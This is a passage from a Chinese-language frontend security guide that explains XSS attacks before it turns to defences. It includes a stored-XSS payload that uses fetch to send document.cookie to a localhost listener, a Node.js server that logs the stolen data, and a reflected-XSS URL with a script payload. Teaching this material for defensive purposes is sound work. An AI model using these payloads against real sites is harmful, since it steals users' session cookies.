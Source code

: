 # 安全策略 - WEB API

> 前端作为用户交互的第一道防线，面临XSS、CSRF、数据泄露等多种安全威胁。本文从攻击防护、数据安全、依赖管理、监控体系等维度系统梳理防御策略，构建完整的安全防护体系。

## 一、攻击防护

### 1. XSS 跨站脚本攻击

#### 攻击实现

- **存储型 XSS（评论系统）**

  > 攻击数据持久化存储于服务端

  攻击者提交的评论内容，当其他用户访问页面时，脚本自动执行，窃取其 Cookie

  ```js
  <script>fetch('http://localhost:3000/' + document.cookie);</script>
  ```

  :::details nodejs示例：获取窃取信息

  ```js
  // 导入 http 模块
  const http = require('http')

  // 创建服务器
  const server = http.createServer((req, res) => {
    // 打印请求信息
    console.log(`请求方法: ${req.method}, 请求路径: ${req.url}`)

    // 设置响应头
    res.setHeader('Access-Control-Allow-Origin', '*') // 允许所有源
    res.writeHead(200, { 'Content-Type': 'text/plain; charset=utf-8' })

    // 发送响应
    res.end('请求已收到\n')
  })

  // 服务器监听指定端口
  const PORT = 3000
  server.listen(PORT, () => {
    console.log(`服务器正在运行，访问 http://localhost:${PORT}`)
  })
  ```

  :::

- **反射型 XSS（URL 参数注入）**

  > 服务器参与攻击链：恶意脚本通过 URL 参数传递到服务器，服务器直接将参数内容返回给页面，导致脚本在响应中被执行。

  假设一个搜索页面直接将 URL 参数输出到页面，**用户点击**链接后，脚本执行：

  URL: `http://localhost:3000/search?keyword=<script>alert('XSS');</script>`
